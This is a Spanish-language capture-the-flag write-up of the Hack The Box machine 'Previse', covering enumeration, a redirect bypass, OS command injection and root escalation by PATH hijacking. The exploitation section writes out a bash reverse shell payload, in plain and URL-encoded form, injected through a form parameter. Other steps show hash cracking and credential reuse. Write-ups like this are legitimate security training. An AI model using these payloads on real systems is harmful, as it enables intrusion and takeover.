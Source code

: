  # PREVISE MACHINE
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/1.png)
 
 ## INDEX
 


 
 ## enumeracion
 
 vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.11.104 -oG allPorts
```

Vemos todos estos puertos abiertos:

 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/2.png)

Vamos a escanear los servicios y versiones:

```bash
nmap -p22,80 -sV -sC 10.10.11.104 -oN targeted
```

Este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/3.png)
 
 vamos a ver la pagina web:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/4.png)
 
 vemos un inicio de sesion pero no tenemos credenciales, no se encontro un SQLi o algo para realizar un bypass del inicio de sesion.
 
 Vamos a enumerar directorios o archivos, vemos que interpreta PHP asi que añadiremos esa extension al final:
 
 ```bash
 wfuzz -c -t 100 --hw=164 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://10.10.11.104/FUZZ.php"
 ```
 
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/5.png)
 
 la mas interesante es **accounts** al parecer es aqui donde puedes crearte una cuenta para ingresar por el login de la pagina, pero si lo colocamos en el navegador nos redirecciona directo al login, vamos a interceptar con burp la peticion a **http://10.10.11.104/accounts.php**
 
 damos click derecho en la peticion y elegimos Do intercept > Response to this request:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/6.png)
 
 le damos a **forward** y veremos la respuesta del servidor, es como verlo desde el **repeater**:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/7.png)
 
 vemos que el codigo de estado dice 301 pero **found** si modificamos el codigo de estado a 200 veamos que pasa:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/8.png)
 
 lo reenviamos:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/9.png)
 
 ya podemos ver el formulario de rgistro de usuario, nos creamos una cuenta e iniciamos sesion:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/10.png)
 
 nos vamos a la opcion de files y vemos lo siguiente:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/11.png)
 
 un comprimido que parece que tiene una copia del sitio lo descargamos y descomprimimos:
 
 vemos archivos que parecen de la pagina, en **config.php** vemos unas credenciales:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/12.png)
 
 y en **logs.php** vemos algo interesante:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/13.png)
 
 se ve que se pasa un parametro a una ejecucion de comando de sistemas, no se puede ver que se sanitiza correctamente la entrada por lo que esto es vulnerable a un **OS command injection**
 
## explotacion

Para ejecutar un **OS command injection** debemos realizar la concatenacion de comandos mediante un **\;** o **&&** 

revisado la pagina se encontro que en la pestaña de logs se encuentra esa variable que se le pasa a la sentencia, el **delim**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/14.png)

vamos a interceptar esa peticion al dar el boton de submit para ver como se envia:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/15.png)

vamos a usar el **;** para agregar otro comando y se ejecute, en este caso una reverse shell:

```bash
comma;/bin/bash -c "bash -i >& /dev/tcp/10.10.14.31/4242 0>&1"
```

pero lo vamos a url encodear con burp decoder:

```bash
%63%6f%6d%6d%61%3b%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%31%2f%34%32%34%32%20%30%3e%26%31%22
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/16.png)

nos colocamos a la escucha y obtenemos una conexion reversa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/17.png)

### movimiento lateral

vemos que el servicio de mysql esta abierto localmente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/18.png)

y nosotros contabamos con credenciales, vamos a ingresar:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/19.png)

vemos las contraseñas de los usuarios en la base de datos **previse** la tabla **accounts**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/20.png)

vamos a realizar el crackeo con hashcat, nos interesa la contraseña del usuario **m4lwhere** ya que el puede ver la flag de usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/21.png)

```bash
hashcat -a 0 -m 500 hash.txt rockyou.txt
```

despues de un buen rato obtenemos su contraseña:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/22.png)

el puerto 22 SSH estaba abierto en la maquina, intentemos conectarnos con las credenciales:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/23.png)

ingresamos y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/24.png)
 
  ## elevacion de privilegios
 
veamos que podemos ejecutar como sudo:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/25.png)

si vemos ese archivo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/26.png)

al parecer esta realizando un backup de unos logs. no se ve nada explotable dentro del script pero vemos que esta usando la herramienta **gzip** pero no lo hace de la ruta absoluta, por seguridad deberia ser:

```bash
/usr/bin/gzip
```

ya que esto puede ser vulnerable a **Path Hijacking**, probemos:

samos que este script lo podemos ejecutar nosotrs como sudo, si ejecutaramos un reverse shell como sudo tendriamos una shell como root.

nos vamos a la ruta **/tmp** y creamos un archivo llamado **gzip**, con el  siguiente contenido  y le damos permisos de ejecucion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/27.png)

ahora vamos a editar la variable de entorno **PATH**, cuando un binario se lo llama para ejecucion, el sistema empiaza a buscar la ubicacion de ese binario a partir del orden de directorios de la variable PATH:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/28.png)

este es el contenido actual de la variable path, empezara buscando en **/usr/local/sbin** despues en **/usr/loacl/bin** y asi sucesivamente el binario en este caso gzip, pero que pasa si alteramos esta variable para que empieza a buscar por el directorio **/tmp** ahi creamos un archivo llamado como el binario y pensara que es eso que debe ejecutar, modifiquemos la variable:

```bash
export PATH=/tmp:$PATH
```

ahora cuando ejecutemos el script nos ponemos a la escucha yobtener una reverse shell pero como root:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/29.png)

somos root y podemos ver la segunda flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/30.png)
